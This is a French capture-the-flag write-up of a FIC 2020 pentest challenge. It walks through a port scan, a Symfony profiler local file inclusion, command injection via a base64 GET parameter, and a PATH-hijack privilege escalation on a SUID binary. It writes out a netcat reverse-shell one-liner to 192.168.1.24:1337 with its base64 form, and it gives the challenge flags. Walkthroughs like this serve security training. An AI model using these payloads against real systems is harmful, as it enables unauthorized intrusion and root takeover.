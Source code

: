 # What The FIC

## Découvrez les solutions d’un des challenges pentest proposés au FIC 2020.  

### Enoncé : Vous avez accès à une machine d’attaque, et vous devez prendre le contrôle complet du server victime

### Niveau : Moyen

### Temps : 20/25 mns

### Description

L'utilisation d'une API/SPA (Single Page Application) ne veut pas dire que vous êtes en sécurité.
Trouvez votre chemin pour devenir root.

# Solution 

Le participant devait lancer la commande suivante de façon à identifier les ports ouverts sur la machine : `nmap -sV -Pn -p- 192.168.1.24`
Suite à cela, il remarque que les ports 4201, 8000 et 22 sont disponibles.


Sur le port 4201 après lecture des fichiers javascripts, nous trouvons une interface web codée en Angular.

![Login page](images/loginpage.png)
**Source: Orange Cyberdefense**


Suite à la soumission de données de test, nous voyons que notre SPA discute avec une API sur le port 8000 utilisant le framework symfony. Le but de l'attaquant est donc de trouver un compte pour voir ce qu'il se cache derrière cette API.
Tout d'abord, il faut savoir que sur ce framework backend, il est de coutume de créer des fichiers de type `Fixture`.


Ces fichiers servent à agrémenter la base de donnée à l'aide d'object php. Par la suite les développeurs jouent avec les migrations pour faire évoluer la base.

Par ailleurs, les personnes qui sont familières avec symfony savent qu'il est possible d'utiliser le profiler de la façon suivante : `http://<target>/app_dev.php/_profiler/open?file=<PATH>` pour faire une "Local File Inclusion"(LFI).

Pour cela, il y avait deux façons de faire : 

* La première consiste à profiter de la négligence du développeur qui a laissé le profiler de symfony sur un environnement de production ce qui lui permet, via une LFI, de lire des fichiers. 


En l'occurrence, il lui fallait trouver le fichier `Fixture.php` dans `src/AppBundle/DataFixture/ORM/`

Il obtenait donc l'utilisateur `clemence97`


![LFI](images/LFI.png)
*Source: Orange Cyberdefense*

* La seconde possibilité était d'utiliser un outil de fuzzing type Gobuster/dirsearch pour trouver la route suivante : 

![Account](images/account.png)
*Source: Orange Cyberdefense*

Une fois le compte obtenu, il suffit de se connecter sur la webapp pour se rendre compte qu'il existe un bouton `check status` qui va sûrement vérifier la disponibilité du serveur.


![Send base64](images/sendb64.png)
*Source: Orange Cyberdefense*

En regardant de plus près la requête, nous nous apercevons qu'une chaine de caractère en base64 est envoyée au serveur en paramètre `GET`.

Lorsqu'on décode celle-ci `echo "bG9jYWxob3N0" | base64 --decode`, nous obtenons: `localhost`

Nous supposons qu'un ping est effectué et allons donc essayer de faire de l'injection de commande pour obtenir un reverse shell sur la machine.

Pour cela, nous créons un serveur d'écoute (192.168.1.24 sur le port 1337) qui réceptionnera notre connexion.
Puis nous encodons le reverse shell suivant en base64: `;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.24 1337 >/tmp/f` 
Nous obtenons alors ce payload : `O3JtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8L2Jpbi9zaCAtaSAyPiYxfG5jIDE5
Mi4xNjguMS4yNCAxMzM3ID4vdG1wL2YK` et l'ajoutons dans le paramètre vulnérable.

![ls](images/ls-fic2.png)
*Source: Orange Cyberdefense*

Une fois le shell obtenu, il suffit de se rendre dans le home de l'utilisateur giorgio pour récupérer le contenu du fichier `user.txt` : `OCD{T4ke_Car3_4b0ut_RIghtS}`


## Elévation de privilèges 

A ce stade du challenge, le candidat se rend compte que les droits du shell obtenus sont limités (Utilisateur `giorgio`). Il devra ainsi élever ses privilèges afin d'obtenir les privilèges `root` et par la même occasion le dernier flag du challenge. 

Suite à de rapides investigations, nous comprenons ce que nous devons exploiter afin d'élever nos privilèges :

![lslah](images/lslah.png)
*Source: Orange Cyberdefense*


Il y a en effet un binaire SUID root nommé  `HarmfulBinary`, ainsi qu'un fichier caché (`.hint.txt`).

Nous essayons d'interagir avec ce binaire afin de déceler d'éventuelles vulnérabilités :

![execute](images/execute.png)
*Source: Orange Cyberdefense*


L'analyse de ce fichier caché *qui fait penser à la sortie de la commande strace sur le binaire* nous permet de déceler un certain nombre d'appels système `execve` intéressants :

![strace](images/strace2.png)
*Source: Orange Cyberdefense*


Le binaire HarmfulBinary essaye d'exécuter sans succès (`No such file or directory`) un autre binaire appelé `reallysuspiciousbin` via plusieurs chemins différents. Ces chemins utilisés nous font penser à la variable d'environnement `PATH`. Nous vérifions cela en affichant le contenu de cette variable d'environnement :

![path](images/path.png)
*Source: Orange Cyberdefense*


L'utilisateur giorgio maîtrisant cette variable d'environnement qui lui est propre, l'idée de cette étape est tout d'abord de modifier cette variable d'environnement afin d'inclure un chemin qu'on maîtrise (sur lequel on a les droits d'écriture) :

![setpath](images/setpath.png)
*Source: Orange Cyberdefense*


Il est possible de vérifier que le binaire `/home/giorgio/reallysuspiciousbin` est bien appelé (mais n'est pas trouvé car le binaire n'existe pas dans `/home/giorgio`) en réitérant la commande `strace`. L'idée est maintenant de créer un binaire malveillant appelé `reallysuspiciousbin` dans notre répertoire personnel pour qu'il soit exécuté avec les droits root lors de l'appel au binaire `HarmfulBinary`. 


Pour cela, nous utiliserons un binaire compilé en C. Il n'est pas possible d'utiliser un script du fait que le Kernel supprime les droits suid sur des fichiers de type script.

Le rôle de ce binaire est de créer un interpréteur Bash avec les droits suid root :

![setpath](images/c.png)
*Source: Orange Cyberdefense*


Notre binaire `reallysuspiciousbin` étant prêt, il suffit de réexecuter de nouveau le binaire SUID `HarmfulBinary` pour activer notre payload :

![setpath](images/root.png)
*Source: Orange Cyberdefense*


Il ne nous reste plus qu'à exécuter via la commande suivante `cat /root/root.txt` pour obtenir le flag `OCD{Priv3esc_Is_Life_M@mene}`